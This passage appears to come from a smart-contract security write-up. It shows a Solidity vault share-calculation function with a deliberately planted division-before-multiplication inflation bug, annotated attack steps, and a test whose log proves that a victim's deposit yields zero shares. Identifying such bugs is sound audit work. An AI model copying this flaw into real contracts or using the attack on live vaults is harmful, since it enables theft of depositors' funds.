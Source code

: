 ```javascript
        uint256 supply = totalSupply;
        if (supply == 0) return assets;
        
        // VULNERABILITY: Precision Loss Inflation Attack
        // This creates a subtle inflation vulnerability through precision loss manipulation
        // The attack works by exploiting division-before-multiplication in specific scenarios
        
        uint256 totalAssets_ = totalAssets();
        
        // Step 1: Calculate share percentage first (division before multiplication)
        uint256 sharePercentage = assets * 1e18 / totalAssets_;  // Get percentage with 18 decimals
        
        // Step 2: Apply percentage to total supply
        uint256 shares = sharePercentage * supply / 1e18;
        
        // The vulnerability: When totalAssets_ >> assets, sharePercentage rounds down to 0
        // This allows attackers to:
        // 1. Deposit large amount to inflate totalAssets
        // 2. Make small deposits from other accounts that get 0 shares due to rounding
        // 3. Withdraw their initial deposit plus the "donated" assets from failed deposits
        
        return shares;
    }

}
```

which identifies the bug that was planted. 

If we expand the existing test, we can prove the observation in the comments that the first depositor's donation can drive the depositor's received shares for small deposits down to 0:

```javascript
    function test_optimize_user_decreases_price_per_share_0() public {
        // Max value: 1000000000000000000;
        asset_mint(0x2e234DAe75C793f67A35089C9d99245E1C58470b,1005800180287214122);
        vault_deposit(1);

        // switch to the other actor and deposit a small amount
        switchActor(1);
        vault_deposit(1e18);
        console2.log("balance of actor 2 after deposit", vault.balanceOf(_getActor()));
    }
```

```bash
Logs:
  balance of actor 2 after deposit 0
```

this allows the attacker to steal shares of the other depositor(s) on withdrawal, an increase in severity of the originally identified bug of arbitraging by deflating the price.

#### Increasing price
For the `test_optimize_user_increases_price_per_share_1` we can see that multiple small deposits followed by a withdrawal of a small amount allows the user to manipulate the price upward. 
